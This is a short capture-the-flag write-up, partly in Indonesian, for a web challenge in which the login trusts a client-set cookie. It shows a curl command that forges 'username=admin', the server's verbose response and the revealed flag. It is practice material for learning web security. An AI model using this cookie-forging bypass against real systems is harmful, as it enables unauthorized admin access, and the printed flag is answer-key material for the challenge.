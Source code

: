<h1><b>2013-WEB-50</h1></b>
<pre>
H4x0r, in his early days, made an authentication system. He obviously felt that he had the made the most cutting-edge 
system but we know how brilliant he actually is. Show him just how easy it is to become the admin. 
You can visit this <a href='http://hack.bckdr.in:10003/'>link</a> to get the flag once you become admin.
</pre>
<h3><b>Solution</b></h3>
<p>ketika kita melakukan requests ke <a href='http://hack.bckdr.in:10003/'>link</a>, maka akan muncul pesan <b>You are not admin</b>, sebenarnya ini 
sederhana kita hanya perlu menganti value dari cookie dengan tool edit cookies browser, tetapi disini saya menggunakan perintah curl pada terminal</p>

```console
root@Python:/home/venom/Downloads# curl --cookie "username=admin" http://hack.bckdr.in:10003/ -v
*   Trying 163.172.144.42:10003...
* TCP_NODELAY set
* Connected to hack.bckdr.in (163.172.144.42) port 10003 (#0)
> GET / HTTP/1.1
> Host: hack.bckdr.in:10003
> User-Agent: curl/7.68.0
> Accept: */*
> Cookie: username=admin
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Host: hack.bckdr.in:10003
< Date: Tue, 07 Jul 2020 14:23:45 +0000
< Connection: close
< X-Powered-By: PHP/7.1.25
< Content-type: text/html; charset=UTF-8
< 
* Closing connection 0
The flag is 9826f65d07b8861bfad0aba3be5e5f4a4207d1c850527f4d3a2266eca4965de3
root@Python:/home/venom/Downloads# 
```

<h3><b>Flag</b></h3>
<pre>
9826f65d07b8861bfad0aba3be5e5f4a4207d1c850527f4d3a2266eca4965de3
</pre>
